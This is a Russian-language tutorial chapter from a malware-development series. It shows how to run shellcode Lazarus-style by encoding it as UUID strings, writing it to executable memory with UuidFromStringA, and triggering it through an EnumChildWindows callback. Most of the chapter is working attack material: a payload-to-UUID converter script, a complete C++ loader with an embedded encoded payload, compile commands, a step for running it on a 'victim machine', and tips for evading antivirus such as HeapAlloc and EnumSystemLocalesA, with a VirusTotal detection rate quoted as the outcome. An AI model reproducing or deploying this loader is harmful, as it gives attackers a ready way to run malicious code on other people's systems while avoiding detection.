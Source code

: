\newpage
\subsection{35. Трюки разработки вредоносного ПО. Запуск шелл-кода в стиле Lazarus Group. Пример на C++.}

﷽

![injection](./images/63/2022-07-22_09-57.png){width="80%"}    

Эта статья является результатом моего собственного исследования ещё одного интересного приёма: запуск полезной нагрузки через `UuidFromStringA` и, например, `EnumChildWindows`.    

### UuidFromStringA

Эта функция преобразует строку в UUID:

```cpp
RPC_STATUS UuidFromStringA(
  RPC_CSTR StringUuid,
  UUID     *Uuid
);
```

Без использования стандартных функций, таких как `memcpy` или `WriteProcessMemory`, эту функцию можно использовать как для декодирования данных, так и для их записи в память.     

Техника выполнения шелл-кода включает следующие шаги:

- Выделение памяти с помощью `VirtualAlloc`    
- Использование `UuidFromStringA` для преобразования UUID-строк в их двоичный формат и сохранения в памяти    
- Использование `EnumChildWindows` (или `EnumDesktopsA`, либо другого подходящего метода) для выполнения ранее загруженной в память полезной нагрузки      

### Практический пример

Рассмотрим практический пример. Этот трюк довольно прост, он схож с [предыдущими](https://cocomelonc.github.io/tutorial/2022/06/27/malware-injection-20.html) приёмами, но с некоторыми изменениями, характерными для Lazarus Group.     

Сначала нам нужен скрипт для преобразования полезной нагрузки в допустимые строки UUID. Например, такой (`payload_uuid.py`):

```python
#!usr/bin/python3

from uuid import UUID
import argparse

parser = argparse.ArgumentParser()
parser.add_argument('-p','--payload', required = True, help = "payload: binary file")
args = vars(parser.parse_args())
pbin = args['payload']

with open(pbin, "rb") as f:
    # читаем 16 байтов из нашего входного бинарного файла
    chunk = f.read(16)
    while chunk:
        # если в блоке менее 16 байтов, дополняем разницу (x90)
        if len(chunk) < 16:
            padding = 16 - len(chunk)
            chunk = chunk + (b"\x90" * padding)
        print(UUID(bytes_le=chunk))
        chunk = f.read(16)
```        

Как обычно, я буду использовать полезную нагрузку с сообщением "meow-meow": `meow.bin`.

Запуск:

```bash
python3 payload_uuid.py -p meow.bin
```
![injection](./images/63/2022-07-22_10-46.png){width="80%"}    

Поскольку теперь у нас есть полезная нагрузка в формате UUID, мы можем создать код доказательства концепции (PoC) для тестирования следующего:

```cpp
#include <windows.h>
#include <rpc.h>
#include <iostream>

#pragma comment(lib, "Rpcrt4.lib")

const char* uuids[] = {
  "e48148fc-fff0-ffff-e8d0-000000415141",
  "56515250-3148-65d2-488b-52603e488b52",
  "8b483e18-2052-483e-8b72-503e480fb74a",
  "c9314d4a-3148-acc0-3c61-7c022c2041c1",
  "01410dc9-e2c1-52ed-4151-3e488b52203e",
  "483c428b-d001-8b3e-8088-0000004885c0",
  "01486f74-50d0-8b3e-4818-3e448b402049",
  "5ce3d001-ff48-3ec9-418b-34884801d64d",
  "3148c931-acc0-c141-c90d-4101c138e075",
  "034c3ef1-244c-4508-39d1-75d6583e448b",
  "01492440-66d0-413e-8b0c-483e448b401c",
  "3ed00149-8b41-8804-4801-d0415841585e",
  "58415a59-5941-5a41-4883-ec204152ffe0",
  "5a594158-483e-128b-e949-ffffff5d49c7",
  "000000c1-3e00-8d48-95fe-0000003e4c8d",
  "00010985-4800-c931-41ba-45835607ffd5",
  "41c93148-f0ba-a2b5-56ff-d54d656f772d",
  "776f656d-0021-5e3d-2e2e-5e3d00909090"
};

int main() {
  int elems = sizeof(uuids) / sizeof(uuids[0]);
  VOID* mem = VirtualAlloc(NULL, 0x100000, 0x00002000 | 0x00001000,
  PAGE_EXECUTE_READWRITE);
  DWORD_PTR hptr = (DWORD_PTR)mem;
  for (int i = 0; i < elems; i++) {
    // printf("[*] Allocating %d of %d uuids\n", i + 1, elems);
    // printf("%s\n", *(uuids+i));
    RPC_CSTR rcp_cstr = (RPC_CSTR)*(uuids+i);
    RPC_STATUS status = UuidFromStringA((RPC_CSTR)rcp_cstr, (UUID*)hptr);
    if (status != RPC_S_OK) {
      printf("[-] UUID convert error\n");
      CloseHandle(mem);
      return -1;
    }
     hptr += 16;
  }

  EnumChildWindows(NULL, (WNDENUMPROC)mem, NULL);
  // EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, NULL);
  CloseHandle(mem);
  return 0;
}
```

Обратите внимание на функцию `UuidFromStringA`. Как я уже писал ранее, вызов этого API с указателем на память вместо указателя на UUID приведёт к тому, что двоичное представление заданного UUID будет сохранено в памяти.     

Связывая множество API-запросов и передавая корректно сформированные UUID, можно загрузить необходимое содержимое (полезную нагрузку) в выбранную область памяти.   

А затем, в качестве указателя на функцию обратного вызова в `EnumChildWindows`, мы указываем этот участок памяти:   

```cpp
EnumChildWindows(NULL, (WNDENUMPROC)mem, NULL);
```

или другую функцию `EnumDesktopsA`:    

```cpp
EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, NULL);
```

### Демо

Давайте посмотрим, как всё работает на практике. Компилируем наш "вредонос":    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ \
-L/usr/x86_64-w64-mingw32/lib/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ -static-libgcc \
-fpermissive -lrpcrt4
```

![injection](./images/63/2022-07-22_10-56.png){width="80%"}    

Запускаем на машине жертвы:    

```powershell
.\hack.exe
```

![injection](./images/63/2022-07-22_10-58.png){width="80%"}    

Чтобы убедиться, что наша полезная нагрузка действительно запущена, можно немного изменить код:

```cpp
printf("[*] Hexdump: ");
for (int i = 0; i < elems*16; i++) {
  printf("%02X ", ((unsigned char*)mem)[i]);
}
```

Затем снова компилируем:   

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ \
-L/usr/x86_64-w64-mingw32/lib/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ -static-libgcc \
-fpermissive -lrpcrt4
```

![injection](./images/63/2022-07-22_11-07.png){width="80%"}    

и снова запускаем:   

```powershell
.\hack.exe
```

![injection](./images/63/2022-07-22_11-09.png){width="80%"}    

Как видно, всё работает идеально! :)    

Загружаем `hack.exe` на VirusTotal:    

![injection](./images/63/2022-07-22_14-59.png){width="80%"}    

**Итак, 6 из 68 антивирусных движков обнаруживают наш файл как вредоносный.**    

[https://www.virustotal.com/gui/file/003e45e65361b09fd8e372d29fbdecfb3462d9202ddf31bf386c728c9cebafa0/detection](https://www.virustotal.com/gui/file/003e45e65361b09fd8e372d29fbdecfb3462d9202ddf31bf386c728c9cebafa0/detection)    

Есть один нюанс. Lazarus Group использует функции `HeapCreate` и `HeapAlloc` вместо:

```cpp
HANDLE hc = HeapCreate(HEAP_CREATE_ENABLE_EXECUTE, 0, 0);
void* mem = HeapAlloc(hc, 0, 0x100000);
```

`HeapAlloc` — это часто используемый API-вызов для выделения памяти в куче.    
Этот API позволяет выделять указанные объемы памяти в куче, в отличие от блоков памяти, полученных с помощью `VirtualAlloc`.
Однако, согласно документации, `HeapAlloc` всё же может вызывать `VirtualAlloc`, если это необходимо.    

Также у него есть преимущество: этот API не выглядит таким подозрительным.    

Кроме того, Lazarus Group использует функцию `EnumSystemLocalesA` для выполнения полезной нагрузки.    

Я надеюсь, что этот пост повысит осведомлённость синих команд об этой интересной технике и добавит ещё одно оружие в арсенал красных команд.    

[nccgroup - RIFT: Analysing a Lazarus Shellcode Execution Method](https://research.nccgroup.com/2021/01/23/rift-analysing-a-lazarus-shellcode-execution-method/)      
[Lazarus Group](https://attack.mitre.org/groups/G0032/)    
[source code in github](https://github.com/cocomelonc/meow/tree/master/2022-07-21-malware-tricks-22)    
